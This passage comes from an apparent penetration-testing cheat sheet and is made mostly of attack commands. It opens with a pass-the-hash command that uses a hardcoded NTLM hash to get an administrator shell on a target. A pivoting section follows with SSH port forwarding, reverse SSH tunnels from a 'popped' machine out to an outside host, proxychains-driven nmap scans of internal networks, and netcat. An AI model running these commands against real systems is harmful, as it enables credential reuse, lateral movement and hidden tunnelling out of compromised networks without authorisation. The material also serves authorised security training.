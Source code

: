         `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 `

        `pth-winexe -U administrator //$ip cmd`

<span id="_6nmbgmpltwon" class="anchor"><span id="_Toc480741823" class="anchor"></span></span>Networking, Pivoting and Tunneling
================================================================================================================================

-   Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port

    -   `apt-get install rinetd`

    -   `cat /etc/rinetd.conf`

        ```
        # bindadress bindport connectaddress connectport
        w.x.y.z 53 a.b.c.d 80
        ```

-   SSH Local Port Forwarding: supports bi-directional communication
    channels

    -   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`

-   SSH Remote Port Forwarding: Suitable for popping a remote shell on
    an internal non routable network

    -   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`

-   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local
    attacking box to tunnel ALL incoming traffic to ANY host in the DMZ
    network on ANY PORT

    -   `ssh -D <local proxy port> -p <remote port> <target>`

-   Proxychains - Perform nmap scan within a DMZ from an external
    computer

    -   Create reverse SSH tunnel from Popped machine on :2222

        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com`
        `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    -   Create a Dynamic application-level port forward on 8080 thru
        2222

        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    -   Leverage the SSH SOCKS server to perform Nmap scan on network
        using proxy chains

        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

-   HTTP Tunneling

      `nc -vvn $ip 8888`
